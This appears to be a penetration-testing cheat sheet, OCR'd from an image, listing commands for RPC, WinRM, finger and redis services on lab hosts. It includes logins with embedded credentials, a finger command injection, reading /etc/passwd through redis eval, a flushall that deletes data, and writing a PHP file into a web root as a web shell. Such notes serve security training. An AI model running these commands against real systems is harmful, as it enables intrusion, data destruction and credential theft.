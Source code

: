     - rpc client commands (135)
        > rpcinfo -p 192.168.1.197
            - Check out all the services running under rpc, a few that are exploitable are "YP", "ttdserver" and "cmsd"
        - Logon on with default creds
            > rpcclient -U "" 192.168.1.197
        - Logon with user creds
            > rpcclient -U dave%password -c "queryusers dog" 192.168.1.197
        - rpc commands
            - look up all users
                > enumdomusers
            - look up all groups
                > enumdomgroups
            - look up users
                > queryuser <username>
            - look up domain info
                > querydominfo
            - lookup privledges
                > enumprivs
        - winexe
            > winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe
    - winrm(5985)
        - evilrm
            - https://github.com/Hackplayers/evil-winrm
            > evil-winrm -i 10.10.10.82 -u scott -p 'tiger'
    - James Admin (4555)
        > nc 10.10.10.51 4555
    - finger(79)
        - list all users
            > finger @10.10.10.76
        - Other finger commands to exploit system
            > finger user@10.10.10.76
            > finger 0@target.host
            > finger .@target.host
            > finger **@target.host
            > finger user@target.host
            > finger test@target.host
        - finger bounce
            > finger@finger-server-ip@yourip
        - injection
            > finger "|/bin/id@10.10.10.76"
    - redis(6379):
        - Access with no password
            > redis-cli -h 192.168.91.93
        _ Access with password
            > redis-cli -h 192.168.91.93 -a MyPaSWoRd123
        - Commands
            - Delete all keys in database
                > flushall
            - Check database size
                > dbsize
            - seach for a directory path
                > config get dir <directory path>
            - dofile check files
                > redis-cli -h 192.168.91.93 -p 6379 eval "dofile('/etc/passwd')" 0
                    - Try varations
                        > EVAL dofile('/etc/passwd') 0
        - web shell
            - List of commands: https://redis.io/commands/info
            > redis-cli -h 192.168.187.69
            > info
            > config set dir /var/www/html
            > config set dbfilename redis.php
            > set test "<?php phpinfo(); ?>"